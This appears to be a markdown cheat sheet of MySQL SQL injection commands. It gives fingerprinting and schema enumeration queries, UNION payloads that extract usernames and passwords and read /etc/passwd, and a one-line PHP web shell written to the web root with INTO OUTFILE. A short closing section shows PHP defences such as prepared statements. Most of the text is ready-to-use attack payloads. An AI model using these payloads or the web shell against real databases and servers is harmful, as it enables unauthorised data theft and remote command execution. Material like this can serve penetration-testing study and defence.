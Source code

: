 # SQL Injection Command Cheat Sheet

## Database Fingerprinting

### MySQL/MariaDB Detection
```sql
SELECT @@version              -- Get database version
SELECT POW(1,1)               -- Test for MySQL (returns 1)
SELECT SLEEP(5)               -- Blind test (delays response for 5 seconds)
```

## Database Enumeration

### Database Discovery
```sql
-- List all databases
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

-- Get current database
SELECT database();
```

### Table Discovery
```sql
-- List tables in a specific database
SELECT TABLE_NAME, TABLE_SCHEMA
FROM INFORMATION_SCHEMA.TABLES
WHERE table_schema='database_name';

-- List all tables
SELECT TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES;
```

### Column Discovery
```sql
-- List columns in a specific table
SELECT COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name='table_name';

-- List all columns in a database
SELECT COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_schema='database_name';
```

## User Information & Privileges

### Current User
```sql
SELECT USER();                -- Current user
SELECT CURRENT_USER();        -- Current user (alternative)
SELECT user FROM mysql.user;  -- List all users
```

### Privilege Checking
```sql
-- Check super privileges
SELECT super_priv FROM mysql.user;
SELECT super_priv FROM mysql.user WHERE user="root";

-- List all user privileges
SELECT grantee, privilege_type FROM information_schema.user_privileges;

-- List privileges for specific user
SELECT grantee, privilege_type
FROM information_schema.user_privileges
WHERE grantee="'root'@'localhost'";
```

## File Operations

### Reading Files
```sql
-- Read file content
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/var/www/html/config.php');

-- Check file read/write permissions
SELECT variable_name, variable_value
FROM information_schema.global_variables
WHERE variable_name="secure_file_priv";
```

### Writing Files
```sql
-- Write simple text to file
SELECT 'Hello World' INTO OUTFILE '/tmp/test.txt';

-- Write query results to file
SELECT * FROM users INTO OUTFILE '/tmp/users.txt';

-- Write web shell
SELECT '<?php system($_REQUEST[0]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

## UNION Injection Payloads

### Basic Structure
```sql
-- Template for UNION injection
' UNION SELECT 1,2,3,4-- -

-- Database enumeration
' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -

-- Table enumeration
' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='database_name'-- -

-- Column enumeration
' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='table_name'-- -

-- Data extraction
' UNION SELECT 1,username,password,4 FROM database_name.table_name-- -
```

### File Operations via UNION
```sql
-- Read files
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -

-- Write files
' UNION SELECT 1,'file content',3,4 INTO OUTFILE '/var/www/html/test.txt'-- -
```

## Common File Paths

### Linux Configuration Files
- `/etc/passwd` - User accounts
- `/etc/shadow` - Password hashes
- `/etc/apache2/apache2.conf` - Apache config
- `/etc/nginx/nginx.conf` - Nginx config
- `/var/www/html/` - Default web root

### Windows Configuration Files
- `C:\Windows\System32\drivers\etc\hosts` - Hosts file
- `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config` - IIS config

## Security Functions (PHP)

### Input Sanitization
```php
// Escape special characters
$username = mysqli_real_escape_string($conn, $_POST['username']);

// PostgreSQL equivalent
$username = pg_escape_string($_POST['username']);
```

### Input Validation
```php
// Regex validation example
$pattern = "/^[A-Za-z\s]+$/";
if(!preg_match($pattern, $input)) {
    die("Invalid input!");
}
```

### Parameterized Queries
```php
// Prepared statements
$query = "SELECT * FROM users WHERE username=? AND password=?";
$stmt = mysqli_prepare($conn, $query);
mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
mysqli_stmt_execute($stmt);
```

## Notes

- Always add `-- -` at the end of payloads to comment out the rest of the query
- Use single quotes `'` for string injection points
- Adjust the number of columns in UNION SELECT to match the original query
- The `secure_file_priv` variable controls file read/write permissions:
  - Empty = Can read/write anywhere
  - Directory path = Restricted to that directory
  - NULL = No file operations allowed
